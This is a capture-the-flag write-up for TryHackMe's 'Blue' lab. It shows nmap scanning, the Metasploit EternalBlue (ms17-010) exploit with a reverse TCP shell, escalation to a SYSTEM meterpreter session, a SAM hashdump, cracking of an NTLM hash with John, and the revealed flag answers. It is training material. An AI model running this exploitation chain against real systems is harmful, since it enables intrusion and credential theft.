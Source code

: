 # Blue

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

## Room Info

> **Name**
>
> 🔗 [Blue](https://tryhackme.com/room/blue)
>
>  **Description**
>
> 📝 *Deploy & hack into a Windows machine, leveraging common misconfigurations issues.*
>
> <img src=".gitbook/assets/blue.jpg" alt="" data-size="original">
>
> **Target IP**
>
> 🎯 `10.10.177.175`

## Recon

```bash
nmap -p1-1000 10.10.177.175
nmap -sV -p445 10.10.177.175
nmap --script smb-vuln-ms17-010 -p445 10.10.177.175
```

## Exploitation

```bash
msfconsole -q
```

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.177.175
set LHOST 10.18.65.48
# LHOST = tun0 VPN interface IP
run

background # or CTRL+Z
```

![](.gitbook/assets/image-20230316134157848.png)

## Privilege Escalation

* Used payload was `windows/x64/shell/reverse_tcp`, so convert the shell to a `meterpreter` shell.

```bash
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
sessions
set SESSION 2
run
```

![](.gitbook/assets/image-20230316141128868.png)

```bash
sessions 5
getuid
	Server username: NT AUTHORITY\SYSTEM
ps
```

* My process may not run as `SYSTEM` user. Select a `PID` (process ID) with the `NT AUTHORITY\SYSTEM` user, and migrate my process to that one. `e.g.` 1284 - spoolsv.exe

```bash
migrate 1284
```

![](.gitbook/assets/image-20230316141809336.png)

## Post Exploitation

### Cracking

```bash
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```

`aad3b435b51404eeaad3b435b51404ee` is the LM hash for _**no password**_.

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > jonhash.txt

john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jonhash.txt
```

`ffb43f0de35be4d9917ac0cc8ad57f8d` is the NTLM hash for `alqfna22`.

Jon's credentials are `jon`:`alqfna22`.

![](.gitbook/assets/image-20230316142843628.png)

## Flags

* In the `meterpreter` session

```bash
cd C:\\
dir
cat flag1.txt
```



<details>

<summary>Reveal Flag1: 🚩</summary>



`flag{access_the_machine}`



<img src=".gitbook/assets/image-20230316143237356.png" alt="" data-size="original">

</details>



```bash
cd C:/Windows/System32/config
cat flag2.txt
```






<details>

<summary>Reveal Flag2: 🚩</summary>



`flag{sam_database_elevated_access}`



<img src=".gitbook/assets/image-20230316143502259.png" alt="" data-size="original">

</details>



```bash
cd C:\\Users\\
dir
cd Jon
cd Documents
cat flag3.txt
```



<details>

<summary>Reveal Flag3: 🚩</summary>



`flag{admin_documents_can_be_valuable}`



<img src=".gitbook/assets/image-20230316143807868.png" alt="" data-size="original">

</details>


***
